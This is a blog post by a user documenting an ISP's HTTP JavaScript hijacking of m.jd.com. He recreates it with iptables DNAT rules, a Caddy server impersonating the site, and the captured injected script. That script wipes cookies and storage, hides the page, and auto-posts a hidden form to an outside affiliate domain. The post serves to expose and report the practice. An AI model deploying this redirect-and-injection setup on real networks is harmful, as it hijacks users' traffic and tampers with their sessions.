 ```yaml
---
title: Simple HTTP Hijacking
date: 2018-06-08 11:01:11
tags:
  - Tech
---
```


# Preface

As a man heavily relies on network stablity, I connected to Internet via CT Network.

However, after experiencing the DNS response packet fully-filled with alphabet within two days, I experienced a HTTP JavaScript Hijacking again. This time, they hijacked ```m.jd.com:80``` . I reproduced this "feature" using my Arch Linux PC Chrome, iPad Safari, iPad Chrome again and again.

I will provide my packet capture files here.

DNS Capture:  [PCAP File](https://yygc.zzjnyyz.cn/asset_files/udp53_filledNONSENSE.pcap)

Hijack Capture: [CHLS File - Charles Proxy](https://yygc.zzjnyyz.cn/asset_files/jd_hijack_ipad.chls)

They still don't admit it. And they asked me if they could go to my house and check it themselves. I accepted. However, the process of reproduction is tested under a very clear environment. Now, they set up a whitelist and want to cheat me.

I won't accept any cheat. Now, I started to deploy a hijack by myself now.


# Deployment

## Add NAT to redirect traffic

>`REDIRECT` alters the destination IP address to send to the machine itself. In other words, locally generated packets are mapped to the 127.0.0.1 address. It's for redirecting local packets. If you only want to redirect the traffic between services on the local machine, it will be a good choice.

> `DNAT` is actual [Network Address Translation](http://en.wikipedia.org/wiki/Network_address_translation). If you want packets destinated outside of the local system to have the destination altered, it's the better choice of the two, as `REDIRECT` will not work.


iptables Config

```bash
# sysctl -w net.ipv4.ip_forward=1
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A PREROUTING -p tcp -m tcp -s <SOURCE IP> -d <DESTINATION IP> -j DNAT --to-destination <WEB SERVER IP>:<PORT>
```

## Caddy for listening on port 80

Caddy Config

```
http://m.jd.com:80 {
   timeouts none
   log stdout
   root /tmp/testweb
}
```

/tmp/testweb/index.html (File dumped from pcap file)

```html
<!DOCTYPE html><html><head><title></title></head><body><script type="text/javascript">function qs(n,m,v,u){u=u||D.URL;var t=u.match(eval('/(\\?|#|&)('+n+')=([^&]*)(&|$)/i'));if(t){m=m||t[2];v=t[3]||v}return m&&v?'&'+m+'='+v:''}function fc(){var h=location.host,x='=;expires='+new Date(0).toUTCString(),y=x+';path=',z=y+'/;domain=',l=[x,y,y+'/',z+h,z+h.substr(h.indexOf('.'))],o=D.cookie.match(/[^ =;]+(?=\=)/g);if(o&&S)for(var i=o.length;i--;)for(var j=5;j--;)D.cookie=o[i]+l[j];if(window.localStorage)localStorage.clear();if(window.sessionStorage)sessionStorage.clear();setTimeout(fc,500)}function fip(){var u=('http://m.quanwangfa.com/').replace(/(\?|#)&/g,'$1');D.body.appendChild(D.createElement('iframe')).src="javascript:var D=document;D.write(\"<html><body><form method='post'action='"+u+"'><input name='t'value='"+location.host+"'/><input name='p'value='0'/><input name='g'value='_top'/><input type='submit'id='s'/></form></body></html>\");var s=D.getElementById('s');if (s.click) s.click();D.close()";setTimeout(function(){if(S){D.cookie='home=s';location.reload()}},3000)}var D=document,d=D,S=!D.cookie.match(/home=s/i);D.body.style.visibility='hidden';D.oncontextmenu=function(){return false};fc();fip()</script></body></html>
```

# Done!

Tested. 

Update: 2 weeks after I report to MIIT, still can be reproduced on my HUAWEI device.

# Referrence

https://serverfault.com/questions/179200/difference-beetween-dnat-and-redirect-in-iptables
http://xstarcd.github.io/wiki/Linux/iptables_forward_internetshare.html
https://my.oschina.net/tridays/blog/785483
